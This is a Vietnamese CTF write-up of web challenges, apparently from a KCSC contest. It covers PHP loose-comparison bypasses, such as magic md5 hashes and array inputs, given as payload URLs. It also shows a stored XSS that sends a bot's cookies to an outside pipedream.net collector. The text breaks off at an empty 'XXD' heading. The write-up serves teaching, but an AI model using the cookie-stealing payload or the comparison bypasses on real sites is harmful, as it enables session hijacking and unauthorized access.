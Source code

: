 # WEB

## Phpri Phprai

Đề bài: http://47.254.251.2:8889

Source code: 
```
<?php
    include 'config.php';
    show_source("index.php");
    error_reporting(0);
    if(isset($_GET["1"]) && isset($_GET["2"])) {
        $str1 = $_GET["1"];
        $str2 = $_GET["2"];
        if(($str1 !== $str2) && (md5($str1) == md5($str2))) {
            echo $flag1;
        }
    }
    if(isset($_GET["3"])) {
        if( strcmp( $_GET['3'], $$flag ) == 0) {
            echo $flag2;
        }
    }
    if(isset($_GET["4"])) {
        $str4 = $_GET["4"];
        $str4=trim($str4);
        if($str4 == '1.4e5' && $str4 !== '1.4e5') {
            echo $flag3;
        }
    }
    if(isset($_GET["5"])) {
        $str5 = $_GET["5"];
        if($str5 == 69 && $str5 !== '69' && $str5 !== 69 && strlen(trim($str5)) == 2) {
            echo $flag4;
        }
    }
    if(isset($_GET["6"])) {
        $str6 = $_GET["6"];
        $var1 = 'KaCeEtCe';
        $var2 = preg_replace("/$var1/", '', $str6);
        if($var1 === $var2) {
            echo $flag5;
        }
    }
?>
```

Flag được chia thành 5 phần:

**Flag1**: Ta cần tìm 2 chuỗi giá trị khác nhau nhưng hash md5 bằng nhau. 

Ở đây ta có 2 cách: 

Cách 1 là nhập vào 2 mảng: 1[] = a và 2[] = b sao cho a và b là 2 giá trị khác nhau. Khi đó nó trở thành: $_GET["1"] = array([0] => a) và $_GET["2"] = array([0] => b), khi hash md5 1 array thì kết quả trả về Null, nên so sánh 2 giá trị hash là bằng nhau. 

Cách 2 là search google với keyword md5 hash collision và tìm thấy 2 chuỗi `240610708` và `QNKCDZO` cho ra giá trị băm md5 được so sánh == là giống nhau. Do khi hash md5 2 giá trị này nó ra dạng 0e..., chúng cùng = int(0) nên với so sánh lỏng lẻo (==) thì 2 giá trị này bằng nhau. 

=> Payload1: http://47.254.251.2:8889/?1=240610708&2=QNKCDZO

Nhận được Flag1: `KCSC{B0_u_Bu_S4`

**Flag2**: Ta cần tìm 1 chuỗi sao cho so sánh (strcmp()) với $flag là giống nhau
Flag chỉ gồm 5 phần từ $flag1-5 nên $flag khả năng mang giá trị rỗng, nên mình thử nhập ?3='' thì ra luôn flag2. Ngoài ra, ta có thể dùng nhập mảng rỗng hoặc không nhập gì cũng cho ra flag2. 

=> Payload2: http://47.254.251.2:8889/?3[]=''

Nhận được Flag2: `C_8usssssss_htt`

**Flag3**: Ta cần tìm chuỗi sao cho khác 1.4e5 nhưng so sánh lỏng lẻo (==) thì bằng 1.4e5

Ở đây 1.4e5 = 1.4*10^5 nên ta có thể thay thành 0.14e6, 14e4, 140e3, 1400e2,... đều ra được flag3.

=> Payload3: http://47.254.251.2:8889/?4=14e4

Nhận được Flag3: `ps://www.youtub`

**Flag4**: Tương tự flag trước, ta cần tìm 1 chuỗi sao cho khác 69 nhưng so sánh lỏng lẻo (==) thì bằng 69 và độ dài chuỗi sau khi loại bỏ ký tự space trái phải bằng 2.

Ta nhập thêm 1 ký tự space vào trước 69 và URL Encode thành %2069 là thỏa mãn yêu cầu

=> Payload4: http://47.254.251.2:8889/?5=%2069

Nhận được Flag4: `e.com/watch?v=x`

**Flag5**: Cần tìm 1 chuỗi sao cho khi preg_replace đi 1 lần KaCeEtCe thì vẫn so sánh bằng tuyệt đối với KaCeEtCe.

Vậy ta chỉ cần chèn KaCeEtCe vào giữa KaCeEtCe là được chuỗi cần tìm

=> Payload5: http://47.254.251.2:8889/?6=KaCeKaCeEtCeEtCe

Nhận được Flag5: `QtC3F8fH6g}`

Payload hoàn chỉnh là: http://47.254.251.2:8889/?1=240610708&2=QNKCDZO&3[]=''&4=14e4&5=%2069&6=KaCeKaCeEtCeEtCe

Flag: `KCSC{B0_u_Bu_S4C_8usssssss_https://www.youtube.com/watch?v=xQtC3F8fH6g}`


## Hi Hi Hi

Đề bài: http://146.190.115.228:20109/

Web có chức năng nhập vào 1 message lời chúc và hiển thị message đó lên trang web. Bên dưới là chức năng gửi report tới localhost của Webserver. 

![image](https://user-images.githubusercontent.com/80137840/213621541-2e31e7bc-eaa7-45c8-ac11-e187636f29b8.png)

Khả năng web bị dính XSS. Thử nhập 'abc' ta thấy message được hiển thị trong thẻ div

![image](https://user-images.githubusercontent.com/80137840/213621798-cc399b9b-cc64-482e-831b-5625caba4fa7.png)

Thử 1 số payload XSS thì web bị XSS với payload đơn giản: `<svg onload=alert('XSS')>`

![image](https://user-images.githubusercontent.com/80137840/213622177-11686f14-2bb1-4d60-8294-fc1cd46bae82.png)

Khai thác XSS lấy cookie bằng cách gửi message report tới Server với payload như sau:

`http://127.0.0.1:13337/?message=<svg%20onload="window.location=%27https://eolqec95un0vjzg.m.pipedream.net/?cookie=%27%2B(document.cookie)">`

![image](https://user-images.githubusercontent.com/80137840/213625305-3fd8f1dc-9520-47a9-8ef0-5df99b9644bd.png)
    
Và nhận được flag:

![image](https://user-images.githubusercontent.com/80137840/213625487-a173ebe1-2f87-4566-8f4f-cb989c99a5e8.png)

Flag: `KCSC{T3T_TU1_3_T13P_Hmmmmmmmm}`
    
    

## XXD




